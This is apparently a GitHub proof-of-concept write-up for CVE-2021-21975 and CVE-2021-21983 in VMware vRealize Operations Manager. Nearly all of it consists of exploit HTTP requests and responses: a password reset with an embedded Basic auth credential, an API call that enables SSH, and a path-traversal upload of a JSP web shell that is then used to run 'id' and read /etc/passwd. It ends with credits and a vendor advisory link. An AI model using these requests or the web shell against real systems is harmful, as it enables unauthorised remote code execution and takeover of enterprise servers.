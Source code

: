 <b>[CVE-2021-21975] VMware vRealize Operations (vROps) Manager API Arbitrary File Write Leads to Remote Code Execution (RCE)</b>
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
vRealize Operations (vROps) is a tool that self-driving IT operations management powered by AI from apps to infrastructure to optimize, plan and scale VMware Cloud and HCI deployments while unifying public cloud monitoring. VMware vRealize Operations Manager API `8.4 and all previous versions` are vulnerable to Server Side Request Forgery (SSRF) vulnerability. Successfully exploitation of this vulnerability may lead to read or update internal resources and also in this case, an attacker can easily steal administrative credentials of vROps server. With combining [CVE-2021-21975](https://github.com/murataydemir/CVE-2021-21975) and `CVE-2021-21983`, an attacker can run arbitrary code on remote vRealize Operations server.

<b>Attack Chain 1, Step 1:</b> After obtain the valid Authorization token (for more information about how to obtain Authorization token, please visit [CVE-2021-21975](https://github.com/murataydemir/CVE-2021-21975), in order to exploit `CVE-2021-21983` vulnerability, you can use the password reset functionality of API method
```
PUT /casa/os/slice/user HTTP/1.1
Host: vulnerablehost
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpTZzVzUW1ZODJLb0NZZ1dFdi9Ia0JMeGE=
Content-Type: application/json
Connection: close
Content-Length: 47

{"username":"admin","password":"P@ssw0rd!"}
```
Response of the above request is down below
```
HTTP/1.1 200 200
Date: Mon, 14 Mar 2022 10:14:04 GMT
Server: Apache
X-VSCM-Request-Id: 2q0012uV
Set-Cookie: JSESSIONID=3EF7C5C58CB8056BF7799B6C7A713AAA; Path=/casa; Secure; HttpOnly
Content-Length: 0
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src https: data: 'unsafe-inline' 'unsafe-eval'; child-src *
Connection: close
```
![image](https://user-images.githubusercontent.com/16391655/158593867-468f0397-c3f1-4035-8b37-04054fe0ee8d.png)

<b>Attack Chain 1, Step 2:</b> Then, we simply enable ssh service on vROps appliance as follow:
```
POST /casa/ssh/enable HTTP/1.1
Host: vulnerablehost
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 68
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpTZzVzUW1ZODJLb0NZZ1dFdi9Ia0JMeGE

{"is_ssh_enabled":true,"is_ssh_disabled":false,"ssh_status":false}
```
Response of the above request is down below
```
HTTP/1.1 200 200
Date: Fri, 25 Feb 2022 15:23:01 GMT
Server: Apache
X-VSCM-Request-Id: 2q000TKm
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src https: data: 'unsafe-inline' 'unsafe-eval'; child-src *
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 66

{"is_ssh_enabled":true,"is_ssh_disabled":false,"ssh_status":false}
```
![5 1 - Enable SSH using API Method](https://user-images.githubusercontent.com/16391655/158594113-b810394e-490c-4178-b0b5-3f9ba1037cec.png)

After activating SSH service on the target, we can simply establish connection with the remote vROps instance, like that
```zsh
root@kali[ ~ ] # ssh admin@vulnerablehost
vRealize Operations Manager Appliance
admin@vulnerablehost's password:
Last Login: Fri Feb 25 15:19:31 2022 from Your_IP_Address
admin@vRealizeClusterNode [ ~ ] $ id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
admin@vRealizeClusterNode [ ~ ] $
```
<b>Attack Chain 2, Step 1:</b> Exploiting File Path Traversal and upload lightweight web shell
```
POST /casa/private/config/slice/ha/certificate HTTP/1.1
Host: vulnerablehost
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpTZzVzUW1ZODJLb0NZZ1dFdi9Ia0JMeGE=
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCyD1z0cA1bkcfxK
Content-Length: 914

------WebKitFormBoundarysCyD1z0cA1bkcfxK
Content-Disposition: form-data; name="name"

../../../../../usr/lib/vmware-casa/casa-webapp/webapps/casa/webs3ll.jsp
------WebKitFormBoundarysCyD1z0cA1bkcfxK
Content-Disposition: form-data; name="file"; filename="egal"
Content-Type: text/html

<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
------WebKitFormBoundarysCyD1z0cA1bkcfxK--
```
Response of the above request is down below
```
HTTP/1.1 200 200
Date: Mon, 14 Mar 2022 10:57:05 GMT
Server: Apache
X-VSCM-Request-Id: 2q0012yJ
Set-Cookie: JSESSIONID=98FB01BB058DCB392FCF76F6FD9039DC; Path=/casa; Secure; HttpOnly
Content-Length: 0
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src https: data: 'unsafe-inline' 'unsafe-eval'; child-src *
Connection: close
```
![image](https://user-images.githubusercontent.com/16391655/158594214-c2602022-ee44-499c-9731-fa0d3f7d6a7d.png)
![image](https://user-images.githubusercontent.com/16391655/158594313-21e7cd6f-cef6-49a6-979c-4fa796b8631d.png)

<b>Attack Chain 2, Step 2:</b> Make a request to call uploaded web shell
```
GET /casa/webs3ll.jsp?cmd=id HTTP/1.1
Host: vulnerablehost
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpTZzVzUW1ZODJLb0NZZ1dFdi9Ia0JMeGE=
Connection: close
```
Response of the above request is down below
```
HTTP/1.1 200 200
Date: Wed, 16 Mar 2022 12:45:29 GMT
Server: Apache
Set-Cookie: JSESSIONID=816B1BFE4721A9407C4AAD8E822B83C6; Path=/casa; Secure; HttpOnly
Content-Length: 98
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src https: data: 'unsafe-inline' 'unsafe-eval'; child-src *
Connection: close
Content-Type: text/html;charset=ISO-8859-1

Command: id<BR>
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
```
Reading the content of `/etc/passwd` file
```
GET /casa/webs3ll.jsp?cmd=cat%20/etc/passwd HTTP/1.1
Host: vulnerablehost
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpTZzVzUW1ZODJLb0NZZ1dFdi9Ia0JMeGE=
Connection: close
```

```
HTTP/1.1 200 200
Date: Mon, 14 Mar 2022 11:05:36 GMT
Server: Apache
Set-Cookie: JSESSIONID=F98859D8C48095AEC2B91A468E74DCC6; Path=/casa; Secure; HttpOnly
Content-Length: 1017
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src https: data: 'unsafe-inline' 'unsafe-eval'; child-src *
Connection: close
Content-Type: text/html;charset=ISO-8859-1

Command: cat /etc/passwd<BR>
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/dev/null:/bin/false
daemon:x:6:6:Daemon User:/dev/null:/bin/false
messagebus:x:18:18:D-Bus Message Daemon User:/var/run/dbus:/bin/false
systemd-bus-proxy:x:72:72:systemd Bus Proxy:/:/bin/false
systemd-journal-gateway:x:73:73:systemd Journal Gateway:/:/bin/false
systemd-journal-remote:x:74:74:systemd Journal Remote:/:/bin/false
systemd-journal-upload:x:75:75:systemd Journal Upload:/:/bin/false
systemd-network:x:76:76:systemd Network Management:/:/bin/false
systemd-resolve:x:77:77:systemd Resolver:/:/bin/false
systemd-timesync:x:78:78:systemd Time Synchronization:/:/bin/false
nobody:x:65534:65533:Unprivileged User:/dev/null:/bin/false
sshd:x:50:50:sshd PrivSep:/var/lib/sshd:/bin/false
apache:x:25:25:Apache Server:/srv/www:/bin/false
ntp:x:87:87:Network Time Protocol:/var/lib/ntp:/bin/false
named:x:999:999::/var/lib/bind:/bin/false
admin:x:1000:1003::/home/admin:/bin/bash
postgres:x:1001:100::/var/vmware/vpostgres/9.6:/bin/bash
```
![image](https://user-images.githubusercontent.com/16391655/158594495-9a66f511-746e-450a-b324-f925a4b22dba.png)
![image](https://user-images.githubusercontent.com/16391655/158596762-fabc2c89-1445-4b35-9698-27869df4c4a6.png)

Credit and original blogpost can be found [https://swarm.ptsecurity.com/catching-bugs-in-vmware-carbon-black-cloud-workload-appliance-and-vrealize-operations-manager/](https://swarm.ptsecurity.com/catching-bugs-in-vmware-carbon-black-cloud-workload-appliance-and-vrealize-operations-manager/)

For more information about remediation of this vulnerability, please visit the [https://www.vmware.com/security/advisories/VMSA-2021-0004.html](https://www.vmware.com/security/advisories/VMSA-2021-0004.html)
